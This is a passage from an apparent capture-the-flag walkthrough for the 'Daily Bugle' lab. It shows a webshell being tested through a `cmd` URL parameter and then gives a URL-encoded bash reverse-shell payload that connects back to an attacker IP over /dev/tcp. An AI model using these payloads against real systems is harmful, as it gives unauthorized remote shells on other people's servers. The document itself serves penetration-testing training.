 When we visit the homepage with the `cmd` parameter set
to a command, that command should be run and the output
will be printed to the screen. Let's test this

```
http://VICTIM_IP/?cmd=ls%20-la
```

![webshell test](/images/dailybugle/webshell-test.png)

### Reverse Shell
We can run single commands on the server, so let's get
a full shell. Again we can use this
[reverse shell generator](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}.
There are multiple different options and if one doesn't
work, make sure to try another one!
> Remember to change the IP and Port values to your
> machine's IP and listening port
{: .prompt-tip }

To make things simple the `bash -i` payload with `URL Encoding`
will work here

```
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F4444%200%3E%261
```

Let's set up a listener on our machine to catch the request
